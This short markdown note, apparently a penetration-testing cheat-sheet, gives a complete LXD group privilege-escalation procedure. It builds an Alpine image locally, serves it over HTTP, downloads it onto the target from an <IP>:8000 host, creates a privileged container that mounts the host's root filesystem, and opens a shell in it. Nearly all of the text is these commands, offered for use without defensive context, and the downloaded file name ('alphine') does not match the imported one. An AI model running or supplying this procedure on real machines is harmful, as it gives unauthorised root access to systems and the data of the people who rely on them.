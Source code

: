 If your user has group LXD you can instantly escalate the privileges to root

## Local machine steps
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python -m SimpleHTTPServer
```

## Remote machine steps
```bash
cd /tmp
wget http://<IP>:8000/alphine.tar.gz
lxc image import ./alpine.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```